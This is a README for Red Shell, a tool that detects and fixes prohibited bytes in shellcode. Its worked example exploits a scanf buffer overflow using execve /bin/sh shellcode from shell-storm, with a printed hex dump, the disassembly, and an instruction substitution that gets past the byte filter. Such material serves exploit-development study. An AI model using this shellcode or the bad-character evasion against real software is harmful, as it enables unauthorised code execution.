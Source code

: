 # Red Shell

## Overview

Red Shell is a tool that augments the capabilities of [ShellNoob](https://github.com/reyammer/shellnoob).
Frequently, buffers have restrictions on which bytes are allowed.
Red Shell helps you both detect and fix prohibited bytes in your shellcode.

You could say that ShellNoob produces the green shell, and Red Shell helps home the shellcode-based attack
and navigate around any restrictions for the input buffer, turning that green shell into a red shell.

## Example

Let's assume that we found a buffer overflow vulnerability in an x86 application with a `scanf()` call:

```c
scanf("name: %s", buffer)  // Buffer can overflow!
```

To develop an exploit for this buffer overflow, you could download some
[shellcode from shell-storm](http://shell-storm.org/shellcode/files/shellcode-827.php),
but this shellcode won't work out of the box.

### Detecting Prohibited Bytes

Let's use Red Shell to analyze this shellcode. For our blacklist of prohibited bytes,
we will use the delimiters for a string argument in `scanf()`.

```
> ./redshell.py --from-shellstorm 827 --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
00000010: 5389 e1b0 0bcd 80                        S......

--------
Assembly
--------
xor eax,eax                      # 31c0
push eax                         # 50
push 0x68732f2f                  # 682f2f7368
push 0x6e69622f                  # 682f62696e
mov ebx,esp                      # 89e3
push eax                         # 50
push ebx                         # 53
mov ecx,esp                      # 89e1
mov al,0xb                       # b00b
    0b [index 0x14]
int 0x80                         # cd80

prohibited bytes found
```

It looks like the `mov al, 0xb` instruction contains a prohibited byte: `0b`. `scanf()` will treat this byte as a delimiter.

### Fixing Prohibited Bytes

Next, let's try to find a way to replace this instruction. Red Shell has one additional format that can let us directly test assembly instructions.

```
> ./redshell.py --from-asm-text 'mov al,0x3b; sub al,0x30' --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: b03b 2c30                                .;,0

--------
Assembly
--------
mov al,0x3b                      # b03b
sub al,0x30                      # 2c30

no prohibited bytes found
```

Now we can patch our shellcode with these new instructions, and we have shellcode that works for this buffer.

## Notes

*   Input Formats
    *   Red Shell supports any input format that ShellNoob supports.
    *   Red Shell also supports ShellNoob's `--64` and `--intel` options.
*   Prohibited Bytes
    *   Red Shell can use either a custom `--blacklist` or a custom `--whitelist`.
    *   By default, Red Shell will check for nulls \[`00`\] and newlines \[`0a`\].
